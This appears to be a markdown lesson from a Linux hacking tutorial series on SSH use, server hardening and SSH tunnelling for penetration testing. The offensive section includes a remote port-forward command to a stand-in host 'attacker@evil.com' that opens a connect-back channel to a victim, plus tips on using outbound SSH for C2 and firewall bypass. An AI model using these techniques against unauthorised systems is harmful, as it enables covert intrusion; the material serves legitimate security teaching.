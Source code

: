 # Day 17 – Secure Shell (SSH) & Tunneling Tricks
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

SSH is essential for system administrators and hackers alike. It provides secure remote access, file transfer, and powerful tunneling capabilities that can be abused by attackers or used by pentesters for stealth operations.

---

## 🔹 SSH Basics
```bash
# Connect to a server
ssh user@target

# Copy a file to a remote host
scp file.txt user@target:/tmp/

# Generate SSH keys
ssh-keygen -t ed25519
```

---

## 🔹 SSH Hardening (Defense)
1. **Disable root login**  
   Edit `/etc/ssh/sshd_config`:  
   ```
   PermitRootLogin no
   ```

2. **Use key-based authentication only**  
   ```bash
   ssh-keygen -t ed25519
   ```
   Add your public key to `~/.ssh/authorized_keys`.

3. **Change default port (avoid 22)**  
   ```
   Port 2222
   ```

4. **Limit users**  
   ```
   AllowUsers alice bob
   ```

5. **Use Fail2Ban / UFW to block brute-force attacks.**

---

## 🔹 SSH Tunneling (Offense & Pentest Use)
Attackers and pentesters often use SSH to **bypass firewalls** and pivot into internal networks.   
SSH tunneling is a method of transporting arbitrary networking data over an encrypted SSH connection. It can be used to add encryption to legacy applications. It can also be used to implement VPNs (Virtual Private Networks) and access intranet services across firewalls.

### Local Port Forwarding
Access remote services via localhost:  
```bash
ssh -L 8080:localhost:3306 user@target
```
Now `localhost:8080` forwards traffic to target’s MySQL.

### Remote Port Forwarding
Expose local services to an attacker:  
```bash
ssh -R 4444:localhost:22 attacker@evil.com
```
Attacker connects back to victim.

### Dynamic Proxy (SOCKS)
Turn SSH into a SOCKS proxy:  
```bash
ssh -D 9050 user@target
```
Then configure `proxychains` to tunnel traffic.

---

## 🔥 Pentester Tips
- Firewalls often allow outbound SSH (22, 443). Exploit this for C2 or pivoting.  
- Use SSH tunnels to access databases, intranet sites, or restricted services.  
- Combine `proxychains` + SSH dynamic proxy for stealthy browsing.  

---

## ✅ Exercises
1. Harden your SSH server: disable root login & enforce keys.  
2. Create a local port forward to access a blocked service.  
3. Use SSH dynamic proxy with `proxychains` to browse internally.  

---

📢 Follow **@CyberSecPlayground** for more Linux hacking lessons, pentesting tricks, and real-world attacker simulations!

